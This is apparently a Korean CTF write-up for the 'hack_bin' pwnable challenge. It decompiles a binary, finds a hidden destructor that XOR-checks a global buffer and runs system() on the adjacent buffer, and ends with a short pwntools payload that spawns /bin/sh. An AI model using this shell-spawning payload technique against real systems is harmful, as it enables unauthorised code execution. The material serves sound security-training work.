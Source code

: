 ```yaml
---
title: hack_bin 풀이
date: 2022-11-26 02:06:00 +0900
tags: [CTF, pwnable]
---
```


## 개요

저번에 시도했으나 풀지 못했던 hack_bin 문제를 이번에 해결해 간단히 소개한다.

## 문제 상황

```bash
.
├── hack_bin
└── key
```

32비트 리눅스 환경이다. c파일이 주어지지 않았으므로 IDA를 이용해 바이너리를 열어 보자.

```c
int __cdecl main(int a1, char **a2)
{
  char dest[256]; // [esp+10h] [ebp-100h] BYREF

  if ( a1 != 3 )
  {
    puts("Give me the argument");
    exit(1);
  }
  strcpy(&s1, a2[1]);
  if ( strcmp(&s1, "H4ck 7h1s b1n4ry") )
    return puts("Fail!!");
  puts("Well DONE!!");
  strncpy(dest, a2[2], 0x101u);
  return puts(dest);
}
```

다행히 깔끔하게 디컴파일된다.

바이너리를 실행하고 첫 번째 인자로 `H4ck 7h1s b1n4ry`를 줘야 할 것 같다. 이후 두 번째 인자로 받은 문자열을 그대로 출력한다.

---

## 취약점이 어디에 있지..?

우선 `strcpy(&s1, a2[1]);`의 src address는 `0x0804A060`이다. bss 영역이므로 eip를 덮어쓸 수 없다. 일단 무한정 길게 쓸 수 있긴 하지만.

BOF가 발생하는 부분은 `strncpy`이다. 딱 1바이트만큼 초과해서 받는다.

만약 dest 위에 바로 saved ebp가 존재한다면 하위 1바이트를 덮어써서 dest 영역으로 끌어들일 수 있겠으나...

```assembly
and     esp, 0FFFFFFF0h
```

main 함수 프롤로그에 위처럼 스택 프레임을 정렬하는 명령이 있으므로 불가능하다.

**GDB**를 이용해 동적 분석한 결과 해당 주소에는 쓰레기 값이 들어있었다.

---

## 정답은 다른 곳에

1바이트 초과 입력이 그냥 있는 것은 아닐 것이라 생각해서 그 부분만 계속 파고 있었는데, 핵심은 다른 곳에 있었다.

`s1`이 존재하는 bss 영역은 다음과 같이 생겼다.

```assembly
.bss:0804A060 ; char s1
.bss:0804A060 s1              db ?                    ; DATA XREF: dtor_001+1C↑r
.bss:0804A060                                         ; dtor_001+26↑w ...
.bss:0804A061 byte_804A061    db ?                    ; DATA XREF: dtor_001+45↑r
.bss:0804A062 byte_804A062    db ?                    ; DATA XREF: dtor_001+54↑r
.bss:0804A063 byte_804A063    db ?                    ; DATA XREF: dtor_001+63↑r
.bss:0804A064 byte_804A064    db ?                    ; DATA XREF: dtor_001+72↑r
.bss:0804A065 byte_804A065    db ?                    ; DATA XREF: dtor_001+81↑r
.bss:0804A066 byte_804A066    db ?                    ; DATA XREF: dtor_001+8C↑r
.bss:0804A067 byte_804A067    db ?                    ; DATA XREF: dtor_001+97↑r
.bss:0804A068 byte_804A068    db ?                    ; DATA XREF: dtor_001+A2↑r
.bss:0804A069 byte_804A069    db ?                    ; DATA XREF: dtor_001+AD↑r
.bss:0804A06A byte_804A06A    db ?                    ; DATA XREF: dtor_001+B8↑r
.bss:0804A06B byte_804A06B    db ?                    ; DATA XREF: dtor_001+C3↑r
.bss:0804A06C byte_804A06C    db ?                    ; DATA XREF: dtor_001+CE↑r
.bss:0804A06D byte_804A06D    db ?                    ; DATA XREF: dtor_001+D9↑r
.bss:0804A06E byte_804A06E    db ?                    ; DATA XREF: dtor_001+E4↑r
.bss:0804A06F byte_804A06F    db ?                    ; DATA XREF: dtor_001+EF↑r
.bss:0804A070 ; char command[84]
.bss:0804A070 command         db 54h dup(?)           ; DATA XREF: dtor_001+FA↑o
.bss:0804A070 _bss            ends
```

16바이트의 s1 영역 이후에 command라고 적힌 84바이트짜리 영역이 있다. 이름부터 무척 수상해 보이길래 이 주소를 참조하는 곳을 찾아봤다.

```assembly
mov     dword ptr [esp], offset command ; command
call    _system
```

?! command에 있는 문자열을 인자로 주면서 무려 system 함수를 호출하고 있다!

해당 코드가 있는 함수 전체를 디컴파일해보자.

```c
int dtor_001()
{
  int result; // eax
  int i; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i <= 15; ++i )
    *(&s1 + i) ^= 0x12u;
  result = (unsigned __int8)s1;
  if ( s1 == 72 )
  {
    result = (unsigned __int8)byte_804A061;
    if ( byte_804A061 == 52 )
    {
      result = (unsigned __int8)byte_804A062;
      if ( byte_804A062 == 99 )
      {
        result = (unsigned __int8)byte_804A063;
        if ( byte_804A063 == 107 )
        {
          result = (unsigned __int8)byte_804A064;
          if ( byte_804A064 == 32 )
          {
            result = (unsigned __int8)byte_804A065;
            if ( byte_804A065 == 55 )
            {
              result = (unsigned __int8)byte_804A066;
              if ( byte_804A066 == 104 )
              {
                result = (unsigned __int8)byte_804A067;
                if ( byte_804A067 == 49 )
                {
                  result = (unsigned __int8)byte_804A068;
                  if ( byte_804A068 == 115 )
                  {
                    result = (unsigned __int8)byte_804A069;
                    if ( byte_804A069 == 32 )
                    {
                      result = (unsigned __int8)byte_804A06A;
                      if ( byte_804A06A == 98 )
                      {
                        result = (unsigned __int8)byte_804A06B;
                        if ( byte_804A06B == 49 )
                        {
                          result = (unsigned __int8)byte_804A06C;
                          if ( byte_804A06C == 110 )
                          {
                            result = (unsigned __int8)byte_804A06D;
                            if ( byte_804A06D == 52 )
                            {
                              result = (unsigned __int8)byte_804A06E;
                              if ( byte_804A06E == 114 )
                              {
                                result = (unsigned __int8)byte_804A06F;
                                if ( byte_804A06F == 121 )
                                  result = system(command);
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return result;
}
```

세상에, 정답이다. s1이 가리키는 문자열을 0x12와 xor 한 후, 그 결과가 `H4ck 7h1s b1n4ry`이면 시스템 함수를 호출한다.

이상한 점은 이 함수는 main함수에서 호출하지 않는다는 것. 문득 문제 페이지에 있던 문장이 생각났다.

> 판사님.. 제 main()에는 버그가 없습니다!

코드는 main함수에서만 실행되는 게 아니니 `dtor_001()`을 다른 어딘가에서 호출하는 걸지도 모른다. 프로그램 초기화나 종료 과정에서 뭘 하는지는 모르지만 믿져야 본전. 거두절미하고 페이로드를 작성해서 확인해보면 될 일이다.

```python
magic = b'H4ck 7h1s b1n4ry'
binsh = b'/bin/sh'
magic_crypt = bytes([i^0x12 for i in magic])
payload = magic_crypt+binsh

p = s.process(["/home/hack_bin/hack_bin", payload, 'A'])

p.interactive()
p.close()
```

이렇게 쉘을 땄다.

---

## 여담

bof를 이용하는 것도 아니고, rop도 아니었다. 오히려 bomblab에 훨씬 가까운 문제랄까.

알고 보면 매우 간단한데 main 함수에만 집중하다가 한참이 걸렸다. 풀었으니 망정이지.